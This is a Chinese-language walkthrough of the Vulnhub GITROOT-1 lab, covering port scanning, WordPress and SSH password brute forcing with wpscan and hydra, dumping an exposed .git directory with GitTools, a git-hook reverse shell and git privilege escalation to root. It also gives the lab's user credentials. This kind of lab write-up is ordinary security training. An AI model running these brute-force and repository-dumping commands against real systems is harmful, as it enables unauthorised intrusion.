 ```yaml
---

title: Vulnhub	488 GITROOT-1
date: 2020-07-03 
---
```

考点：githack,githook

靶机链接：<https://www.vulnhub.com/entry/gitroot-1,488/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GITROOT-1  | 10.0.2.37 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.37
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bf:45:f6:b3:e3:ce:0c:69:18:5a:5b:27:e5:d3:9c:86 (RSA)
|   256 b5:d7:45:50:06:c4:e2:3c:28:52:b8:06:26:1f:de:b0 (ECDSA)
|_  256 27:f0:d0:21:13:30:9c:5e:f0:70:a1:d8:5c:a7:8f:75 (ED25519)
80/tcp    open  http      Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.0.4
|_http-title: myblog! &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
11211/tcp open  memcache?
| fingerprint-strings: 
|   RPCCheck: 
|_    Unknown command
```

11211端口 memcache服务 未发现有用信息

### WEB测试

![1](https://static.iihack.com/vulnhub/488/1.jpg)

编辑`/etc/hosts` 添加 

```bash
10.0.2.37       wp.gitroot.vuln gitroot.vuln 
```

#### wp.gitroot.vuln

访问<http://wp.gitroot.vuln>

![2](https://static.iihack.com/vulnhub/488/2.jpg)

##### wpscan

```bash
$ wpscan --url http://wp.gitroot.vuln --api-token ******************************************* -e
```
未发现有用信息

同时开着爆破

```bash
wpscan --url http://wp.gitroot.vuln/ -U beth -P /usr/share/wordlists/rockyou.txt -t 10
```

后面有突破以后也没爆出来密码，就停掉了

#### gobuster

只能看看是否有其他域名

```bash
gobuster vhost -u gitroot.vuln -w /usr/share/dirb/wordlists/big.txt|grep 200
```

![3](https://static.iihack.com/vulnhub/488/3.jpg)

编辑`/etc/hosts` 添加 `repo.gitroot.vuln`

#### repo.gitroot.vuln

![4](https://static.iihack.com/vulnhub/488/4.jpg)

分别访问`get.php` 和`set.php`无有用信息

##### dirsearch

![5](https://static.iihack.com/vulnhub/488/5.jpg)

存在`.git`信息泄露

##### GitTools

```bash
$ git clone https://github.com/internetwache/GitTools
$ ./gitdumper.sh http://repo.gitroot.vuln/.git/  repo.gitroot.vuln

$ ./extractor.sh ../Dumper/repo.gitroot.vuln/ repo.gitroot.vuln
```

查看代码寻找有用信息

![6](https://static.iihack.com/vulnhub/488/6.jpg)

找到用户名`pablo` 密码`ihjedpvqfe` 登录失败

### 暴力破解

爆破`pablo`用户的ssh登录密码

```bash
$ hydra -l pablo   -P /usr/share/wordlists/rockyou.txt -f 10.0.2.37 ssh
```

## 获得权限

### pablo

因为rockyou字典扩增，原本很快可以爆破的密码，现在会时间极长。参考其他报告，这里可获得密码`mastergitar` 

查看文件发现提示

![7](https://static.iihack.com/vulnhub/488/7.jpg)

### beth

#### 思路一

找到目录并开启web服务

![8](https://static.iihack.com/vulnhub/488/8.jpg)

继续上GitTools

```bash
$ ./gitdumper.sh http://10.0.2.37:9000/.git/ auth
$ ./extractor.sh ../Dumper/auth auth

```

到auth目录本地查找有用信息

![9](https://static.iihack.com/vulnhub/488/9.jpg)

#### 思路二

![10](https://static.iihack.com/vulnhub/488/10.jpg)

![11](https://static.iihack.com/vulnhub/488/11.jpg)

获得密码`r3vpdmspqdb` 

查看home目录，获得三个用户名`beth  jen  pablo`，二选一测试，发现用户名`beth`密码`r3vpdmspqdb`

### jen

![12](https://static.iihack.com/vulnhub/488/12.jpg)

查看目录权限

![13](https://static.iihack.com/vulnhub/488/13.jpg)

参考[Pwning git: A Proof of Concept (PoC)](https://www.pentestpartners.com/security-blog/pwning-git-a-proof-of-concept-poc/)

![14](https://static.iihack.com/vulnhub/488/14.jpg)

本地监听444端口，成功接收反弹shell

![15](https://static.iihack.com/vulnhub/488/15.jpg)

![16](https://static.iihack.com/vulnhub/488/16.jpg)

![17](https://static.iihack.com/vulnhub/488/17.jpg)

## 提权

上[GTFOBins ](https://gtfobins.github.io/gtfobins/git/) 看看git

![18](https://static.iihack.com/vulnhub/488/18.jpg)

![19](https://static.iihack.com/vulnhub/488/19.jpg)

成功获得root权限
